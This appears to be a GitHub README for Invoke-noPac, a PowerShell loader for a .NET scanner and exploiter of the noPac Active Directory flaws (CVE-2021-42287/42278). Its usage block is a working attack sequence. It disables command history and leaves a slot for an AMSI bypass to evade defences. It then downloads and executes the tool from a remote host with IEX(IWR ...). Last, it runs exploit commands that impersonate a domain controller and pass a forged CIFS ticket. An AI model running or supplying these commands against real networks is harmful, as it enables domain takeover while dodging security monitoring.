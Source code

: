 # Invoke-noPac

## The .Net assembly is based on my fork https://github.com/ricardojba/noPac that has a few code changes to improve upon the original.

[PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack) style .Net Assembly loader for the [CVE-2021-42287 - CVE-2021-42278] Scanner & Exploiter [noPac](https://github.com/ricardojba/noPac).

Usage:

```
Set-PSReadlineOption -HistorySaveStyle SaveNothing

<Insert-Your-AMSI-Bypass-From-AMSI.FAIL-Here>

[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12
[system.net.webrequest]::defaultwebproxy = new-object system.net.webproxy('http://proxy:8080')
[system.net.webrequest]::defaultwebproxy.BypassProxyOnLocal = $true
[system.net.webrequest]::defaultwebproxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
# [system.net.webrequest]::defaultwebproxy.credentials = Get-Credential

IEX(IWR -UseBasicParsing -UserAgent "hi-there-blueteam" 'https://raw.githubusercontent.com/ricardojba/Invoke-noPac/main/Invoke-noPac.ps1')

Invoke-noPac
Invoke-noPac -Command "scan -domain full.domain -user domain_user -pass Password123!"
Invoke-noPac -Command "scan -domain full.domain -user domain_user -pass Password123! /enctype rc4"
Invoke-noPac -Command "-domain full.domain -user domain_user -pass Password123! /enctype rc4 /dc dc.full.domain /mAccount testmachine /mPassword testmachinepass /service cifs /ptt"
```

## Credits

[cube0x0](https://twitter.com/cube0x0) for the original [noPac](https://github.com/cube0x0/noPac).
